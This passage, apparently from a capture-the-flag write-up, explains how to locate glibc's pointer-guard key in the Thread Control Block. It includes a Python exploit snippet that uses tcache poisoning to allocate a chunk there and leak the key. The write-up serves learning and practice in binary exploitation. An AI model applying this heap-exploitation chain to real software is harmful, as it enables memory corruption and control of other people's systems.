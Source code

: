 So even though we don't have  `_dl_fini` to restore the encryption key, we don't even need it since the key itself is stored at the Thread Control Block (TCB) and it's located at a fixed offset from libc.&#x20;

{% hint style="info" %}
the TCB is also the location where the stack canary is stored
{% endhint %}

<figure><img src="../../.gitbook/assets/image_2024-04-21_145840335.png" alt=""><figcaption></figcaption></figure>

and apparently it is located just right before libc's base address, to confirm I tried running it again with another randomized address, and it returns the same offset.&#x20;

#### chaining the exploit

at the [start](b01lers-ctf.md#info-leaks) we already have some leaks, we're going to use the same `tcache-poisoning` method from the [previous challenge](b01lers-ctf.md#easy-note). however, instead of overwriting hooks, we're going to allocate a chunk to the TCB to leak the pointer guard.&#x20;

```python
# ===============
# PTR GUARD LEAK
# ===============
# preparing chunk for tcache poisoning
ptr_guard_addr = libc.address - 0x2890 
alloc(3, 0x10)
alloc(4, 0x10)
alloc(5, 0x10)
free(4)
free(3)

# poisoning tcache
target = mangle(heap, ptr_guard_addr)   # address in libc, (Thread Block Control) TBC where it also stores canary
edit(3, p64(target))

# arbitrary chunk allocation
alloc(6, 0x10)
alloc(7, 0x10) # target

view(7)
ptr_guard = u64(io.recvline().strip())
```
